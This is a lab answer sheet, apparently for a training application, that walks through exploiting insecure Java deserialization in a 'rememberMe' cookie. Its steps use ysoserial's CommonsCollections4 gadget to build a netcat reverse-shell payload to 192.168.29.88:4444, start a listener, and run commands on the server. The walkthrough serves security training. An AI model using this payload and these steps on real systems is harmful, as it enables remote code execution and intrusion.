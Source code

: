 # Java Deserialization Answersheet

**Step 1:** Click on "Java Website: 16661" link.<br />
<kbd> <img src="1.png" /> </kbd>
<br /> <br />

**Step 2:** Provide the following credential and tick the "Remember Me" option and click on Submit button.<br />
```
Username: admin
Password: password
```
Note: The registration functionality is disabled for this application.<br />
<kbd> <img src="2.png" /> </kbd>
<br /> <br />

**Step 3:** Capture the HTTP request and send this request to repeater "Right Click -> Send to Repeater".<br />
<kbd> <img src="3.png" /> </kbd>
<br /> <br />

**Step 4:** Click on "send" button and observe that the server responds with "rememberMe" cookie which has Java serialized magic string starting with "rO0".<br />
<kbd> <img src="4.png" /> </kbd>
<br /> <br />

**Step 5:** Observe the serialized value of it after decoding it with Base64.<br />
<kbd> <img src="5.png" /> </kbd>
<br /> <br />

**Step 6:** Forward the request captured in **Step 3** and click on "Login" button.<br />
<kbd> <img src="6.png" /> </kbd>
<br /> <br />

**Step 7:** Download the YSoSerial utility from following location, and use the following command to check the payloads available.<br />
https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar
```
java -jar ysoserial-master-SNAPSHOT.jar
```
<kbd> <img src="7.png" /> </kbd>
<br /> <br />

**Step 8:** Capture the IP address and use that to generate the reverse shell payload using following command and capture the generated payload.<br />
```
java -jar ysoserial-master-SNAPSHOT.jar CommonCollections4 "nc 192.168.29.88 4444 -e /bin/bash" | base64 -w 0
```
<kbd> <img src="8.png" /> </kbd>
<br /> <br />

**Step 9:** Start the listener using following command.<br />
```
nc -nlvp 4444
```
<kbd> <img src="9.png" /> </kbd>
<br /> <br />

**Step 10:** Replace the payload generated in **Step 8** in "RememberMe" parameter and click on "send" button to send request to the server.<br />
<kbd> <img src="10.png" /> </kbd>
<br /> <br />

**Step 11:** A connection will be received on reverse shell. Extract the system information using whoami, uname -a command.<br />
<kbd> <img src="11.png" /> </kbd>
<br /> <br />